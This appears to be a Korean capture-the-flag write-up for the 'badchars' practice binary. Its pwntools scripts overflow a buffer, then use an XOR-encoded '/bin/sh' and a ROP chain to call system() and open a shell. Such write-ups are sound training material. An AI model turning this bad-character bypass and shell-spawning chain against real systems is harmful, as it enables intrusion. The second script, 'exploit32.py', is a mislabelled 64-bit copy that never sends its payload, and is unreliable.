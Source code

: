 직접 "/bin/sh"를 입력하는것은 불가능하기 때문에, xor 연산하여 입력한 후, 다시 xor로 복호화 했다.

exploit.py:
```python
from pwn import *

# badchar checker for debug
bad = ['b', 'i', 'c', '/', ' ', 'f', 'n', 's']
def check(src):
    for i in bad:
        if i in src:
            print 'BAD CHAR!'
            return

xr = 0x400b30
mr = 0x400b34
pr = 0x400b39
ppr = 0x400b3b
ppr2 = 0x400b40
buffer = 0x601000
# xor encrypted flag
binsh = '\x4e\x03\x08\x0f\x4e\x12\x09\x61'
# xor encryption key
key = p64(0x61)
systemplt = 0x4006f0

pl = 'a'*0x28
pl += p64(ppr) + binsh + p64(buffer) + p64(mr)
for i in range(0,8):
    pl += p64(ppr2) + key + p64(buffer+i) + p64(xr)
pl += p64(pr) + p64(buffer)
pl += p64(systemplt)

#check(pl)

p = process('./badchars')
p.recvuntil('> ')
p.sendline(pl)
p.interactive()
```
exploit32.py:
```python
from pwn import *

xr = 0x400b30
mr = 0x400b34
pr = 0x400b39
ppr = 0x400b3b
ppr2 = 0x400b40
buffer = 0x601000
# xor encrypted flag
binsh = '\x4e\x03\x08\x0f\x4e\x12\x09\x61'
# xor encryption key
key = p64(0x61)
systemplt = 0x4006f0

pl = 'a'*0x28
pl += p64(ppr) + binsh + p64(buffer) + p64(mr)
for i in range(0,8):
    pl += p64(ppr2) + key + p64(buffer+i) + p64(xr)
pl += p64(pr) + p64(buffer)
pl += p64(systemplt)

p = process('./badchars')
p.recvuntil('> ')
```